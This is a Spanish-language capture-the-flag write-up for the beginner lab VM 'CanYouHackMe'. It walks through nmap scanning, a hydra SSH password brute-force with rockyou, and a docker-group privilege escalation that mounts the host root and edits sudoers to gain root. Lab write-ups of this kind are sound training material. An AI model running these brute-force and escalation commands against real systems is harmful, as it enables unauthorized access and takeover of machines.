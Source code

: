 # CANYOUHACKME - THE HACKERS LABAS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [TheHackersLabs](https://thehackerslabs.com/). 

Para descargarla vas a [CanYouHackMe](https://thehackerslabs.com/canyouhackme/) y le das a descargar. Luego importas el .ova para crear la máquina virtual y la arrancas.

### descripción

- Dificultad: principiante
- Sistema Operativo: linux
- Autor: Enaitz

## ESQUEMA

![canyouhackme](https://github.com/user-attachments/assets/7317565f-ae11-46a9-a8cd-a066d9f6d0c0)

## RECONOCIMIENTO DE RED

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 192.168.1.42
```

![image](https://github.com/user-attachments/assets/a9d8cbd5-fe9e-439d-995a-51d7fa81ca9b)

Nos llega respuesta, y como el TTL es 64, el sistema operativo muy posiblemente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.42 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/8d69c473-aca4-473d-9fe1-61a9c0a1ca0a)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Ahora sobre estos dos puertos hacemos otro escaneo de versiones y servicios con nmap:

```python
nmap -p22,80 -sCV 192.168.1.42 -oN targeted
```

> `-p22,80` hacer el escaneo solo sobre estos dos puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/8d793561-8c5b-4f18-9a5f-b58a34b6ebee)

## RECONOCIMIENTO WEB

Al cargar el servicio web vemos que no lo resuelve:

![image](https://github.com/user-attachments/assets/2e506392-a43b-4735-82ba-f52266e38827)

Vemos que se nos redirecciona al dominio canyouhackme.thl, así que añadimos la línea `<ip> canyouhackme.thl` al `/etc/hosts` para que podamos resolver el dominio. Después de hacer esto volvemos a cargar la web:

![image](https://github.com/user-attachments/assets/251637ca-be7a-4e39-a9e4-ed89f1bb1157)

No vemos nada útil. Si inspeccionamos el códgio HTML veremos algo muy interesante:

![image](https://github.com/user-attachments/assets/78c617d6-42e1-4cbd-b038-0f30c6966760)

## INTRUSIÓN

Puede que exista un usuario en la máquina llamado juan. Como la máquina tiene el puerto 22 abierto, hacemos fuerza bruta de contraseñas con `hydra`:

```python
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.42
```

![image](https://github.com/user-attachments/assets/298b5d66-ec6a-46a5-bdfd-f74d2acccab0)

Vemos que encuentra una contraseña. Ahora nos conectamos por SSH haciendo `ssh juan@192.168.1.42` y de contraseña "matrix".

## ESCALADA DE PRIVILEGIOS

#### root

Siendo el usuario juan, si hacemos `id`:

![image](https://github.com/user-attachments/assets/82e760e9-7d64-4caa-9c4e-6d9d0d6be997)

Vemos que estamos en el grupo docker. Esto es crítico ya que podemos crear contenedores. Se podría crear un contenedor que monte la raíz del sistema dentro del contenedor, y dentro del contenedor ser root y modificar lo que queramos de la raíz del sistema y los cambios se aplicarían a toda la partición.

Para hacer esto primero descargamos una imagen de ubuntu, por ejemplo:

```python
docker pull ubuntu:latest
```

Después creamos un contenedor con ubuntu que monte la raíz del sistema en `/mnt/root`, por ejemplo:

```python
docker run -dit -v /:/mnt/root --name pwned ubuntu:latest
```

Y después ejecutamos una bash como root dentro del contenedor:

```python
docker exec -it pwned bash
```

Una vez dentro, podemos editar el archivo `/mnt/root/etc/sudoers` y añadir esta línea:

```python
juan    ALL=(ALL:ALL) ALL
```

De esta forma podremos ejecutar comandos como el usuario que queramos siendo juan. Hay un problema y es que nano no está instalado, pero como dentro del contendor somos root simplemente ejecutamos `apt update` y `apt install nano -y`. Una vez instalado, añadimos esa línea al archivo `/mnt/root/etc/sudoers`, guardamos y salimos del contenedor.

Ahora si hacemos `sudo -l` vemos que se han aplicado los cambios:

![image](https://github.com/user-attachments/assets/a146c996-172b-4e33-adce-4b2ac39e3b97)

Así que hacemos `sudo bash` y ganamos una bash como root:

![image](https://github.com/user-attachments/assets/92fc9ea3-7e6d-4f7e-9384-7ca39443267b)